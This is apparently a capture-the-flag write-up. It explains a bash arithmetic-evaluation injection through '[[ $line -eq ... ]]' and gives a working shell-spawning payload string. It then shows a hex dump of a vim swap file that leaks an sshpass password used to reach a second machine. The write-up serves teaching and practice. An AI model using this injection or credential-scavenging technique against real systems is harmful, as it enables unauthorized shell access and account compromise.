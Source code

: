 ## Level 1

This is my favourite [bash pitfall](https://mywiki.wooledge.org/BashPitfalls#A.5B.5B_.24foo_.3E_7_.5D.5D):

```bash
ans=$(($i+$i))
read line

if [[ "$line" -eq "$ans" ]]
   ...
fi
```

The code look so innocent, but writing bash is hard and dangerous!
When using `-eq` bash is put in math mode and`"$line"` is interpreted as a number, meaning e.g. `arr[X]` will evaluate `X` to get the index, so `arr[$(whoami)]` will be executed.

PoC to get a shell: `a[$(bash -c 'bash -i 1>&2')]`

```
$ cat flag1
## Yeah! You find the first flag:
##
## flag{_________________________________}
##
## But stop here, hacker! You should not see this file!
## And I won't tell you where the second flag is!
```

## Level 2

Using shell from level 1:

```
$ ls -al
drwxr-xr-x 1 0 0  4096 Dec 10 00:11 .
drwxr-xr-x 1 0 0  4096 Dec 10 00:11 ..
-rw-r--r-- 1 0 0 12288 Mar 17  2023 .connect.sh.swp
drwxr-xr-x 1 0 0  4096 Dec 10 00:11 bin
drwxr-xr-x 1 0 0  4096 Dec 10 10:46 etc
-rw-rw-r-- 1 0 0   359 Dec 10 00:10 flag1
drwxr-xr-x 3 0 0  4096 Dec  9 18:44 lib
drwxr-xr-x 2 0 0  4096 Dec  9 18:44 lib64
```

We see an `.swp` file from vim containing hints for the next flag.

```
$ /bin/busybox xxd .connect.sh.swp
00002fb0: 0000 0000 0000 0000 7373 6870 6173 7320  ........sshpass 
00002fc0: 2d70 2078 356b 646b 776a 7238 6578 6932  -p x5kdkwjr8exi2
00002fd0: 6266 3730 7938 6738 3062 6767 6432 6e75  bf70y8g80bggd2nu
00002fe0: 6570 6620 7373 6820 6374 6640 7365 636f  epf ssh ctf@seco
00002ff0: 6e64 0000 2321 2f62 696e 2f62 6173 6800  nd..#!/bin/bash.
```

